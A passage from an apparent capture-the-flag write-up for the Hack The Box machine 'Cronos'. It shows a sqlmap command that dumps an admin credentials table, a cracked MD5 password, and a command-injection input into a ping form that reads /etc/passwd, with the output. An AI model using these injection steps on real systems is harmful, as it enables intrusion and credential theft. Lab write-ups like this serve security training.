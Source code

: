And finally the username and password

```
$ sqlmap -u 'http://admin.cronos.htb/index.php' --data="username=hacked&password=server&form=submit" --dbms=mysql --dump -D admin -T users

		...
Database: admin
Table: users
[1 entry]
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 4f5fffa7b2340178a716e3832451e058 | admin    |
+----+----------------------------------+----------+
```

Decrypting the md5 hash with www.md5online.org/md5-decrypt.html gives us the password

```
1327663704
```

## Initial Access: shell

The Net Tool form is pretty basic and executes and commands we feed it. Just inserting the IP address for the ping command executes on shell 'ping 8.8.8.8'. Feeding the form with 8.8.8. & cat /etc/passwd shows us the contents of the file

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
bind:x:112:119::/var/cache/bind:/bin/false
```
